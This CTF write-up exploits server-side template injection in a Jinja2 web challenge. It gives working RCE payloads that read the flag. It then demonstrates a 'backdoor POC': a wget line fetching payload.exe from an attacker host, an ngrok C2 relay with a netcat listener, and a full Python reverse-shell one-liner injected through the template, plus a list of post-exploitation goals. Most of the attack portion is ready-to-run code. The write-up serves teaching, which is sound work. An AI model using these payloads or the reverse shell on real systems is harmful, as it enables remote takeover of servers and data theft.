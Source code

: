 # Super Space Tech Inc

## Challenge Description
Our engineers have found that one of the python web applications have been infiltrated. Try to find what the attackers have hidden!
http://chall.seccomp.xyz:5003/


## Walkthrough
Going to the challenge home page, it shows only a link (Jarvis). This link displays the following text: “Hi, Javis”. Note that the url accepts the parameter “name” and the default input is “Javis”.

![alt text](img/Picture1.png)
![alt text](img/Picture2.png)

The output appears to be printed from a template. This template is as follows:
“Hi, {name}”, where the variable “name” is the url input. 
To verify, we can inject our own input.

![alt text](img/Picture3.png)

Our input is displayed successfully. 
A vulnerability called Server Side Template Injection (SSTI) could be present in this web app.
SSTI is a critical vulnerability as it enables the attacker to inject malicious inputs into a template and execute server side.
Potential threats include unauthorised file disclosure and arbitrary code execution.
The challenge title also gives a hint that it is SSTI (**S**uper **S**pace **T**ech **I**nc).

A simple test to detect SSTI is to perform a mathematical evaluation and verify if the input is rendered and reflected in the output. Inserting the input “{{7*7}}” into the url parameter prints the output of 49, confirming the existence of SSTI.
![alt text](img/Picture4.png)

In order to use the correct payload, we will need to identify the template engine. By injecting an invalid payload, an error will trigger and the engine is identified. However if the error messages are suppressed, we will need to inject language-specific payloads. Fortunately, PortSwigger has a decision tree for us to refer to: https://portswigger.net/research/server-side-template-injection
![alt text](img/Picture5.png)

In this challenge, all of these are unnecessary as the description states it is running a python web server (Jinja2).

SSTI Payloads can be found in PayloadsAllTheThings (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

We will use the following payload to execute the “id” command via Remote Code Execution (RCE) in Jinja2 syntax
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![alt text](img/Picture6.png)


The command is executed successfully.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()%20}}
```
![alt text](img/Picture7.png)


List files in the directory using “ls” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27ls%27).read()%20}}
```
![alt text](img/Picture8.png)


The flag.txt is discovered in the directory. Obtain the flag using “cat” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}
```
![alt text](img/Picture9.png)

The flag obtained is **CZ4067{3xp1oiT_sStI}**.


## Taking a step further from REMOTE CODE EXECUTION (RCE)
The implications of a vulnerability leading to a RCE is catastrophic as it gives the attackers the ability to perform arbitrary code execution, including system commands.
Once obtaining RCE, an attacker will typically attempt to gain backdoor access into the victim’s machine to perform more malicious actions. We will demonstrate a simple Backdoor POC for the purpose of educating others on the impacts of RCE.

### Creating our payload
A common method of gaining backdoor access in Linux is to transfer a malicious payload into the victim machine via **curl** or **wget** command. However, it is discovered that neither commands are installed in this machine.

Curl command to http://google.com
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27curl%20http://google.com%27).read()%20}}
```

Wget command from attacker machine
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27wget%20http://AttackerIP/payload.exe%27).read()%20}}
```
![alt text](img/Picture10.png)

Fortunately, as this is a Linux machine, it will typically have Python installed. We can use the **socket.connect()** method from Python’s socket library, which establishes a TCP connection to a server. This will be our reverse shell payload.

### Setting up C2 Server and Kali netcat for listening
As the connection is made over the Internet, we will need to set up Port Forwarding in our own network. However, this will cause security issues as our Public IP Address will be disclosed. Thus, we will set up a Command and Control (C2) Server using **ngrok**. Signing up is required and installation can be found in the website: https://ngrok.com/download

Once ngrok is installed in our Kali Linux machine, we run the following command:
```console
$ ngrok tcp <internal port>
```
In this test, the internal port used is **6969**.

The service will start and traffic is now forwarded from ngrok service to our localhost
![alt text](img/Picture11.png)

Next, set up **netcat** to listen for incoming connection
```console
$ nc -lvnp 6969
```

### Executing reverse shell
The following command will be injected into the Web Server:
```console
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ngrokIP",externalport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

In summary, the Web Server will establish a connection with our C2 Server, before spawning a bash process. In this example, ngrokIP is **0.tcp.ap.ngrok.io** and externalport is **17897**.

This will be the resulting RCE command:
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27python%20-c%20\%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%220.tcp.ap.ngrok.io%22,17897));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)\%27%27).read()%20}
```

In our Kali Linux machine, a shell terminal is opened and we can interact with the Web Server directly.
![alt text](img/Picture12.png)

Having a direct connection to the victim’s machine allows the attacker to proceed with his kill chain. He can perform post-exploitation methods including but not only:
- Enumeration for Privilege Escalation, gaining root access to the machine
- Data Exfiltration
- Persistency in the machine
- Pivoting into exploiting other machines within the network

